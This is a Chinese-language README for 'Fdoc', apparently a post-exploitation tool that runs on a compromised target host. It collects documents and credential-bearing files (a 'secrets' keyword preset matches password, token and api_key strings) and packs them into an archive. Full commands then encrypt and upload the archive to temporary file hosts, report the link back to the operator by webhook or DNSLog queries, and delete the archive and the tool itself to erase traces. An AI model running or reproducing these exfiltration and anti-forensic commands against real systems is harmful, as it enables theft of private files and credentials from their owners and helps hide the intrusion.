


# Fdoc

在目标主机上按条件筛选文件，打包成 `.tgz`（tar.gz）。

可选 `-upload`：内嵌 uploader，按压缩包大小自动选临时网盘上传。不配 `-webhook`/`-dns` 时，下载链接打印到本地；配了则可回传到你的接收端（C2 掉线也能拿回链接）。不加 `-upload` 时只本地打包，不联网。

提供 Linux / Windows / macOS 静态二进制。

> 英文文档：[README.md](README.md)

## 功能

- 按后缀 / 文件名 / 内容关键字 / 修改日期筛选
- 多个条件之间是 **且**；同一参数内逗号分隔是 **或**
- `-keyword secrets`（别名 `creds`）：展开为赋值/JSON 凭证子串
- 默认 `-e documents`（不会扫全盘所有文件）
- 软限制：默认 `-max 1GB`。**未在命令行显式传入 `-max`** 却触达时会失败（exit 1），提示加 `-max`（或 `-max 0` 关闭）；显式传入后才启用截断保留
- `-max-file` 默认 `0`（不限制单文件）；显式传入后才跳过超大文件
- 默认跳过系统垃圾目录，可用 `-x` 覆盖
- 边扫边打，不占大内存
- `-size` 只统计大小，不打包
- `-upload` 自动上传；可加 `-webhook` / `-dns` 回传
- `-scrub` 成功后删除压缩包和自身
- `-encrypt` 上传前加密（需同时 `-upload -key`）

> 文件符号链接会跟随到目标后打包（目录符号链接不进入）。Windows `.lnk` 快捷方式不解析，仅作普通文件按后缀匹配。

## 业务逻辑

### 总览



### 扫描与筛选（单个文件视角）

未设置的过滤条件视为通过。多个条件之间是 **且**；同一参数内逗号是 **或**。



默认：`-e documents`；`-x` 为各 OS 跳过列表；`-max-file` 默认关闭。软限制 `-max 1GB` 未显式传入却触达 → exit 1；显式 `-max` 截断保留部分包（exit 2）。

不清楚会匹配多大时，**建议先跑一遍 `-size`**（只统计、不打包），看 `disk` / `logical` 再决定是否加 `-max` 或收紧筛选。

## 快速开始

```shell
# 不清楚体积时先估大小（推荐）
Fdoc -d /data -size

# 打包某个目录下的文档
Fdoc -d /data -o out.tgz

# 打包并上传，链接打到屏幕上
Fdoc -d /data -o out.tgz -upload -q

# 上传后回传到 webhook，并清理痕迹
Fdoc -d /data -o out.tgz -upload -webhook https://host/hook -scrub
```

更完整说明见 `Fdoc -h` 与下文。

## 常用参数

| 参数 | 说明 |
|------|------|
| `-d` | 扫描目录（默认用户家目录） |
| `-o` | 输出路径（默认 `output_<时间>.tgz`） |
| `-e` | 后缀：`documents`（默认）/ `all`（≠全部文件）/ `any`（不限后缀）/ `pdf,txt,...` |
| `-f` | 文件名包含（逗号=或） |
| `-k` / `-keyword` | 文件内容包含（逗号=或；预设 `secrets`/`creds`；推荐 `-keyword`，勿与 `-key` 混淆） |
| `-t` | 只收该日期及以后修改的文件（`YYYY-MM-DD`） |
| `-max` | 累计逻辑大小软上限（默认 1GB）；须显式传参才截断保留；`0`=不限制 |
| `-max-file` | 单文件上限（默认 `0`=不限制；显式传入后才跳过超大文件） |
| `-x` | 跳过目录（逗号分隔；设置后覆盖默认跳过列表；Windows 默认相对 home） |
| `-size` | 只统计，不打包 |
| `-q` / `-v` | 安静 / 详细（`-v` 才输出每个后端 probe OK/FAIL） |
| `-upload` | 打包后上传 |
| `-b` | 指定上传渠道（默认自动；列表：`Fdoc backends`） |
| `-force` | 覆盖已存在的 `-o`；并允许 flaky/down 上传渠道 |
| `-progress-interval` | 无进度条时上传/加密进度行间隔（分钟，默认 0.5=30s，`0`=关） |
| `-webhook` | HTTPS 回传地址（可选） |
| `-dns` | DNSLog 域名（可选，webhook 失败时备用） |
| `-encrypt` / `-key` | 上传前加密（远端名为 `*.bin`） |
| `-scrub` | 成功后删压缩包和程序自身（部分失败 exit 1） |

子命令：`Fdoc backends`、`Fdoc decrypt …`。

退出码：`0` 成功，`1` 错误（含未显式传 `-max` 却触达默认总预算、`SCRUB_PARTIAL`），`2` **显式** `-max` 截断（部分包已保留；若开了 `-upload` 仍可能上传）。

## 筛选规则

| 写法 | 含义 |
|------|------|
| `-e pdf -f secret` | 后缀 pdf **且** 文件名含 secret |
| `-k password:,token:` | 内容含 password: **或** token: |
| `-keyword secrets` | 预设：赋值写法（`password=`、`password :` 等）**或** JSON（`"password":` 等）；别名 `creds` |
| `-e any` | 不限后缀（仍可与 `-f`/`-k`/`-t` 组合） |
| `-e all` | 常见文档+压缩包+txt，**不是**全盘所有文件 |

### 后缀预设

| 预设 | 包含 |
|------|------|
| `documents`（默认） | pdf/doc/xls/ppt/csv |
| `all` | 常见文档 + 压缩包 + txt |
| `archives` / `packages` | zip/rar/7z/tar/gz |
| `images` | jpg/png/gif/bmp |
| `videos` | mp4/mkv/avi/mov |
| `any` | 不限制后缀 |

### 关键词预设

| 预设 | 含义 |
|------|------|
| `secrets` / `creds` | 展开为凭证赋值/JSON 子串（`password:`、`"password":`、`api_key=`、`密码：` 等）。可混用字面量：`-keyword secrets,corp_sso=`。仍跳过明显二进制；单文件最多扫约 8MB。 |

### 大小相关

| 参数 | 含义 |
|------|------|
| `-size` | 报告磁盘占用 + 逻辑大小；会受 `-max` 影响提前停 |
| `-max` | 软默认 1GB：未显式传参触达 → 失败；显式传入 → 截断保留部分包 |
| `-max-file` | 默认关闭；显式传入后跳过过大单文件并继续 |

不清楚要打包的文件有多大时，建议先执行 `-size`：只扫不打，便于对照逻辑大小是否会撞默认 `-max`，再决定预算或过滤条件。

## 上传与回传

流程：打包 → 按体积自动选渠道上传 → **本地打印链接** 和/或 **远程回传** → 可选 `-scrub`。

- **不配** `-webhook` / `-dns`：stderr 打 `UPLOAD_OK ...`，stdout 打下载 URL（方便脚本接）
- **配了**：优先 webhook；失败或没配 webhook 再用 DNS。不是双发。stderr 仍会 echo 裸 URL，便于本地查看。

加密上传成功时 stderr 会看到 `ENCRYPT_OK ... encrypted=1 decrypt_first=1 remote=….bin`。远端名为 **`*.bin`**（不再伪装成 `.tgz`），内容是密文，必须以 `UP01` 开头，且**必须先 `Fdoc decrypt` 再解压**。`UPLOAD_OK` 在 `-encrypt` 时也会带 `encrypted=1 decrypt_first=1`。

### 加密格式与解密

`-upload -encrypt -key SECRET` 使用与 uploader 相同的格式：

```text
[UP01 4字节魔数][随机 IV 16字节][AES-256-CBC 密文，PKCS7 填充]
```

- 密钥：把 `SECRET` 按 PKCS7 方式填充到 **32 字节**，作为 AES-256 密钥（不是 PBKDF2）
- 远端文件名统一为 `*.bin`（不用 `.encrypt`，tmpfiles 会拒；也不再用假 `.tgz`）
- 可用 `xxd` 核对：文件头应为 `55 50 30 31`（`UP01`）；若是 `1f 8b` 则是明文 gzip，未加密
- `cipher` 大小应等于 `ENCRYPT_OK` 里的 `cipher=`
- **磁盘**：`-encrypt` 会在归档**同目录**写临时密文（不用 `/tmp`，避免 tmpfs），上传期间大约需要 **1× 归档大小** 的额外空间；若该目录不可写会回退到 `TempDir`（可能是 tmpfs，大文件需注意内存）。`Fdoc decrypt` 会写出完整明文（再约 1×），解密过程流式进行，不会把十几 GB 整包塞进内存。`-q` 只静默人类日志；机器行仍会输出。未加 `-q` 时上传会打印简短 `auto: probing…` / `auto: using …`；`-v` 才输出每个后端 OK/FAIL。默认 `-progress-interval` 为 **0.5 分钟（30 秒）**。

解密（**必做**；推荐 Fdoc 自带子命令，无需 uploader 二进制）：

```shell
Fdoc decrypt -key 'SECRET' -o recovered.tgz downloaded.bin
# -o 省略时：xxx.gz → xxx.tgz；若输入已是 xxx.tgz → xxx.dec.tgz（避免覆盖）
# 已存在则加 -force
tar -tzf recovered.tgz
```

也可用：`uploader decrypt -k 'SECRET' -o recovered.tgz downloaded.bin`。

### Webhook

示例：

- `https://webhook.site/<uuid>`（临时测试）
- `https://your-vps.example.com/fdoc/hook`（自建）

须用 `https://`（本机测试可用 `http://127.0.0.1/...`）。

POST JSON 示例：

```json
{
  "task_id": "op42",
  "host": "HOSTNAME",
  "url": "https://temp.sh/....",
  "backend": "temp",
  "archive": "x.tgz",
  "size": 1234567,
  "files": 42,
  "truncated": false,
  "ts": 1710000000
}
```

`archive` 只含文件名，不含绝对路径。

### DNS 回传

查询格式：

```text
<序号>-<总数>-<base32片段>.<task_id>.<你的dnslog域名>
```

解码内容：`task_id|主机名|下载URL`。

还原脚本：

```shell
python3 scripts/dnslog_decode.py          # 粘贴后 Ctrl-D
pbpaste | python3 scripts/dnslog_decode.py -q   # 只打印 URL
```

须凑齐同一 `task_id` 的全部分片；运行时也要求每个分片查询都发出去（NXDOMAIN 算成功，超时不算）。`-cb-timeout` 同时限制 webhook 与 DNS 总预算。

### `-scrub` 说明

上传成功后执行；若配置了回传，还需回传成功。  
**不保证**对方一定收到/存下链接。优先用 webhook；仅 DNS + `-scrub` 请谨慎。

**Windows**：压缩包照常尝试删除。自删顺序为：立即删除 → 重命名 + 重启后删除（`MoveFileEx`，常需管理员）→ `%TEMP%` 下延迟 `cmd` 删除（无需管理员）。全部失败则 stderr 出现 `SCRUB_PARTIAL`。非管理员通常仍能删掉压缩包；删自身为 best-effort。

Unix 下 `-upload` 会忽略 `SIGHUP`，降低会话断开导致中途被杀的概率。

## 更多例子

```shell
# 先看大小再打包（不确定体积时务必先 -size）
Fdoc -d /data/docs -e documents -size
Fdoc -d /data/docs -e documents -max 500MB -o docs.tgz

# 家目录文档，安静模式
Fdoc -q -o docs.tgz

# 按文件名 / 内容找
Fdoc -d /data -f password,secret -e any -o hits.tgz
Fdoc -d /data -e txt,ini,conf,json -keyword secrets -o hits.tgz
Fdoc -d /data -e txt,ini,conf -k token:,password: -o hits.tgz

# 只要某日期之后的
Fdoc -d /data -e documents -t 2024-01-01 -o recent.tgz

# 加密上传 + 回传 + 清理
Fdoc -d /data -e documents -o /tmp/x.tgz -upload \
  -encrypt -key 'secret' \
  -webhook https://webhook.site/<uuid> \
  -dns xxx.dnslog.cn \
  -task-id op42 -scrub -q

# 解密下载回来的密文
Fdoc decrypt -key 'secret' -o /tmp/recovered.tgz ~/Downloads/xxx.bin

# Windows（cmd / PowerShell；非 ASCII 路径建议 UTF-8 控制台）
# 默认 -d 为 %USERPROFILE%；默认 -x 跳过 home 下 AppData 缓存
Fdoc.exe -d %USERPROFILE%\Documents -e documents -o %TEMP%\docs.tgz
Fdoc.exe -d %USERPROFILE% -o %TEMP%\home.tgz -upload -q
# 扫整盘时自行加系统目录，例如：
#   -x "C:\Windows,C:\Program Files,C:\Program Files (x86)"
```

## 编译

`uploader` 通过 `go.mod` 的 `replace uploader => ./third_party/uploader` 内嵌。同步说明见 [`third_party/README.md`](third_party/README.md)。

```shell
go mod tidy
CGO_ENABLED=0 go build -trimpath -ldflags='-s -w' -o Fdoc .

make setup build-linux build-windows build-osx

go test ./...
```

## 冒烟 / 回归

```shell
bash scripts/smoke_regress.sh           # 离线
ONLINE=1 bash scripts/smoke_regress.sh  # 含真实上传 + 本地 webhook
```

## 目录结构

```text
main.go              入口
option/              命令行参数
pkg/                 扫描 / 过滤 / 打包
pkg/compress/        tgz 写入
pkg/upload/          上传封装
pkg/callback/        webhook + DNS 回传
pkg/decrypt/         密文解密（Fdoc decrypt）
pkg/scrub/           痕迹清理
scripts/             DNS 解码、冒烟脚本
third_party/uploader 内嵌 uploader
logx/                日志
utils/               工具函数
```

## 许可证

MIT（见 LICENSE）。
